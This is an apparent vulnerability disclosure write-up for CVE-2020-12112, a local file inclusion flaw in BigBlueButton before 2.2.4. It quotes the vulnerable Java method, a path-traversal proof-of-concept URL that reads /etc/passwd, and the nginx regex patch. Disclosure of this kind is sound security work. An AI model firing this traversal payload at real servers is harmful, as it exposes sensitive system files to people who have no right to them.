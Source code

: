 # CVE-2020-12112 🚨
BigBlueButton versions lower than 2.2.4 have a LFI vulnerability allowing access to sensitive files.

## Story 📜

During a distance learning course on a BigBlueButton instance a student in my class shared my teacher's slide presentation link and I noticed that the file name was included in the URL.

![School's Slack](/screen1.png "School's Slack")

```
Student: "No need to write notes, I've got the slide."
Me: Well, I've got a security report to make. 😂
```

By playing a little bit with it I was able to get access to the `/etc/passwd` file of the server and discover the existence of a security vulnerability on the open-source Big Blue Button solution.

I reported the vulnerability, the BBB team was quick to answer me and patch the vulnerability (only a few days).

## Poc 🧙

    public File getDownloadablePresentationFile(String meetingId, String presId, String presFilename) {
    	log.info("Find downloadable presentation for meetingId={} presId={} filename={}", meetingId, presId, presFilename);

        File presDir = Util.getPresentationDir(presentationBaseDir, meetingId, presId);
        return new File(presDir.getAbsolutePath() + File.separatorChar + presFilename);
    }
https://github.com/bigbluebutton/bigbluebutton/blob/v2.2.3/bbb-common-web/src/main/java/org/bigbluebutton/api/RecordingService.java#L90

As you can see this method used by a `PresentationController` allows you to download a presentation file by concatenating 3 parameters.

- Absolute path of the file
- A separator character
- File name

This makes it possible to obtain links like this:

`https://test.bigbluebutton.org/bigbluebutton/presentation/download/ffc98830dbfbac3dcc80cc4c5f30711ebd1c23e8-1586764259489/d2d9a672040fbde2a47a10bf6c37b6a4b5ae187f-1586764259500?presFilename=d2d9a672040fbde2a47a10bf6c37b6a4b5ae187f-1586764259500.pdf`

To exploit the vulnerability, just get a valid link to a presentation file and modify the *presFilename* parameter to access sensitive files.

`https://test.bigbluebutton.org/bigbluebutton/presentation/download/ffc98830dbfbac3dcc80cc4c5f30711ebd1c23e8-1586764259489/d2d9a672040fbde2a47a10bf6c37b6a4b5ae187f-1586764259500?presFilename=../../../../../etc/passwd`

![/etc/passwd file](/screen2.png "/etc/passwd file")

## Patch 🤕

The BBB team patched the vulnerability in the 2.2.4 version via a server configuration rule (HTTP), a regex and a precise filename format.

```
		location /bigbluebutton/presentation/download {
			return 404;
		}

		location ~ "^/bigbluebutton/presentation/download\/[0-9a-f]+-[0-9]+/[0-9a-f]+-[0-9]+$" {
			if ($arg_presFilename !~ "^[0-9a-f]+-[0-9]+\.[0-9a-zA-Z]+$") {
				return 404;
			}
			proxy_pass         http://127.0.0.1:8090$uri$is_args$args;
			proxy_set_header   X-Forwarded-For   $proxy_add_x_forwarded_for;
			# Workaround IE refusal to set cookies in iframe
			add_header P3P 'CP="No P3P policy available"';
		}
```

https://github.com/bigbluebutton/bigbluebutton/commit/5ebdf5ca7718fc8bb3c08867edd150278e6a724c#diff-c7d77969a4547b5349e55c5466948a27R45

## References 🔍

- https://github.com/bigbluebutton/bigbluebutton/blob/master/bigbluebutton-web/grails-app/controllers/org/bigbluebutton/web/controllers/PresentationController.groovy
- https://github.com/bigbluebutton/bigbluebutton/commit/5ebdf5ca7718fc8bb3c08867edd150278e6a724c
- https://twitter.com/thibeault_chenu/status/1249976515917422593
- https://twitter.com/bigbluebutton/status/1252706369486180353


